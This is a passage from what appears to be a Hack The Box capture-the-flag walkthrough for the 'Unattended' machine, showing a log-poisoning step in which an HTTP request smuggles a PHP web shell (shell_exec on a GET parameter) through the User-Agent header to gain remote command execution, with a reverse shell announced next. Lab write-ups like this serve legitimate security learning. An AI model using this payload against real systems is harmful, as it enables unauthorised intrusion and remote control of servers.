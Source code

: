 To poison the logs in order to achieve remote command execution, you need `openssl s_client` to send in PHP code, probaby through the User-Agent header like so.

```
GET / HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: <style type='text/css'>body { background-color: black; } #endgame { background-color: white; color: black; }</style><div id='endgame'><pre><?php echo shell_exec($_GET[0]); ?></pre></div>
```

<a class="image-popup">
![9be25949.png](/assets/images/posts/unattended-htb-walkthrough/9be25949.png)
</a>

Yes, I can execute remote commands.

...

Next, we\'ll get that reverse shell.

<a class="image-popup">

[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/